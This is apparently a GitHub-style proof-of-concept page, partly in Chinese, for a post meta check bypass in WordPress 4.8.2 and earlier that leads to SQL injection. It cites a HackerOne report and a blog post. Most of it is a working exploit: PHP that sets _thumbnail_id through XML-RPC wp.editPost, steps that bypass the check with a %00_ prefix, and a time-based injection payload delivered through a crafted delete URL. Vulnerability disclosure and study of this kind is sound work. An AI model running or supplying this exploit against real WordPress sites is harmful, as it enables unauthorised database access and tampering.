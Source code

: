 # WordPress ≤ 4.8.2 POST META 校验绕过漏洞
## From
* WordPress post meta data checks bypass[https://hackerone.com/reports/265484](https://hackerone.com/reports/265484)
* WordPress <= 4.8.2 SQL Injection POC[http://blog.vulspy.com/2017/11/09/Wordpress-4-8-2-SQL-Injection-POC/](http://blog.vulspy.com/2017/11/09/Wordpress-4-8-2-SQL-Injection-POC/)
## POC
```php
    $usr = 'author';
    $pwd = 'author';
    $xmlrpc = 'http://local.target/xmlrpc.php';
    $client = new IXR_Client($xmlrpc);
    $content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
    $res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);
```
### 用`%00_`来bypass

### STEP

* Add New Custom Field, Name:_thumbnail_id Value:`55 %1$%s or sleep(10)#`
* Click Add Custom Field button.
* Modify the HTTP request, `_thumbnail_id => %00_thumbnail_id`
* Launch the attack. Visit `/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#.`
